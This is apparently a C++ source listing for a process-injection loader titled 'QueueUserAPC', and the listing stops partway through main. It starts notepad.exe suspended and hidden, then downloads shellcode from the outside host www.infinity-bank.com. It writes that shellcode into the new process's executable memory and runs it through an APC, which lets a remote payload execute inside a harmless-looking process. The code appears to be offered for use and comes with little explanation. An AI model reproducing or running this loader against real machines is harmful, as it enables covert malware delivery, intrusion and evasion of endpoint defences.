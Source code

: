 C++ QueueUserAPC

```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);

int main()
{
    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    // create process
    CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW | CREATE_SUSPENDED,
        NULL,
        NULL,
        startup_info,
        process_info);

    // download shellcode
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    // allocate memory
    LPVOID ptr = VirtualAllocEx(
        process_info->hProcess,
        NULL,
        shellcode.size(),
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    // copy shellcode
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        process_info->hProcess,
        ptr,
        &shellcode[0],
        shellcode.size(),
        &bytesWritten);

    //Queue APC
    QueueUserAPC((PAPCFUNC)ptr, process_info->hThread, 0);

    //resume process
    ResumeThread(process_info->hThread);
```